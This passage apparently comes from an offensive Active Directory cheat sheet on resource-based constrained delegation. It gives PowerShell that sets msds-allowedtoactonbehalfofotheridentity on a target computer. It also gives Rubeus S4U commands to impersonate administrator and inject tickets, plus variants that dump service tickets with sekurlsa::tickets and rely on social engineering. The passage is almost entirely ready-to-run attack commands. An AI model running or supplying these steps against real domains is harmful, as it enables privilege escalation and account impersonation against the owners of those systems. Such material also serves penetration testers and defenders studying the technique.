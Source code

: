 ```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

#Add the new raw SD to msds-allowedtoactonbehalfofotheridentity
Get-DomainComputer <target> -SearchBase "LDAP://DC=domain,DC=local" -Credential $Cred | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -SearchBase "LDAP://DC=domain,DC=local" -Verbose -Credential $Cred

#Check if well added
$RawBytes = Get-DomainComputer <target> -Properties 'msds-allowedtoactonbehalfofotheridentity' -Credential $Cred -SearchBase "LDAP://DC=domain,DC=local" | select -expand msds-allowedtoactonbehalfofotheridentity
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

* Use the **S4USelf** function with the fake machine (on an arbitrary SPN) to create a forwardable ticket for a wanted user (not **protected**)
* Use the **S4UProxy** function to obtain a ST for the impersonated user for the wanted service on the target machine

```powershell
#Calcul hash
.\Rubeus.exe hash /password:Password123! /user:FAKE01$ /domain:domain.local
#S4U attack
.\Rubeus.exe s4u /user:FAKE01$ /rc4:2B576ACBE6BCFDA7294D6BD18041B8FE /impersonateuser:administrator /msdsspn:cifs/<target> /domain:domain.local /ptt /dc:DC.domain.local
```

#### Skip S4USelf

* Attacker has compromised Service A, has sufficient ACLs against Service B to configure RBCD, and wants to attack Service B
* By social engineering or any other solution, an interesting victim authenticates to Service A with a ST
* Attacker dumps the ST on Service A (`sekurlsa::tickets`)
* Attacker configures RBCD from Service A to Service B as above
* Attacker performs S4UProxy and bypass S4USelf by providing the ST as evidence

```powershell
.\Rubeus.exe s4u /user:ServiceA$ /aes256:<service_key> /tgs:"/path/to/kirbi" /msdsspn:cifs/serviceB.domain.local /domain:domain.local /ptt /dc:DC.domain.local
```

#### Reflective RBCD

With a TGT or the hash of a service account, an attacker can configure a RBCD from the service to itself, a run a full S4U to access the machine on behalf of another user.

```powershell
Set-ADComputer ServiceA -PrincipalsAllowedToDelegateToAccount ServiceA$
.\Rubeus.exe s4u /user:ServiceA$ /aes256:<service_key> /impersonateuser:Administrator /msdsspn:cifs/serviceA.domain.local /domain:domain.local /ptt /dc:DC.domain.local
```
